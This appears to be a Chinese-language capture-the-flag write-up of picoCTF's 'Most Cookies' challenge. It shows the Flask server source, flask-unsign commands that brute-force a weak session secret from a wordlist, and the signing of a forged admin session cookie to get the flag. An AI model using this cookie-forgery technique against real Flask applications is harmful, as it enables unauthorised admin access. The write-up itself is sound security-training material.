给出了 
#### server.py
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```

是关于 flask cookie 的
https://picoctf2021.haydenhousen.com/web-exploitation/most-cookies

用到了  flask-unsign  https://pypi.org/project/flask-unsign/

页面有 `Cookie`  session=eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZOTWWQ.MqJXu1KJyMpLy4QSFOyWE2Jipk4

可以查看session蕴含的信息
```sh
flask-unsign -d --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZOTAPA.GSyyeb_UYNqS_awutC-nceLFuGU'
{'very_auth': 'blank'}
```
根据给出的代码，我们需要的是 {'very_auth': 'admin'}，所以我们需要伪造一个满足条件的 cookie 

根据 flask-unsign d的用法分析 cookie 所用的 secret ，这里的 secret 就是 代码中的 cookie_names ，会随机使用
```sh
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZOTHjg.dFYbkYDft0WsalkPNagIemsniZQ' --wordli
st 'word.txt'
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```

根据这句可以得出 cookie 的 secret ,之后我们就能根据 确定的 secret 伪造自己的 cookie 
```sh
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZOTGGA.x9ijdmwVPLCuikZTgcBp_xHj2N8
```

将伪造的 cookie 替代原来的，刷新页面，得到 flag
#### word.txt
```txt
"snickerdoodle"
"chocolate chip"
"oatmeal raisin"
"gingersnap"
"shortbread"
"peanut butter"
"whoopie pie"
"sugar"
"molasses"
"kiss"
"biscotti"
"butter"
"spritz"
"snowball"
"drop"
"thumbprint"
"pinwheel"
"wafer"
"macaroon"
"fortune"
"crinkle"
"icebox"
"gingerbread"
"tassie"
"lebkuchen"
"macaron"
"black and white"
"white chocolate macadamia"

```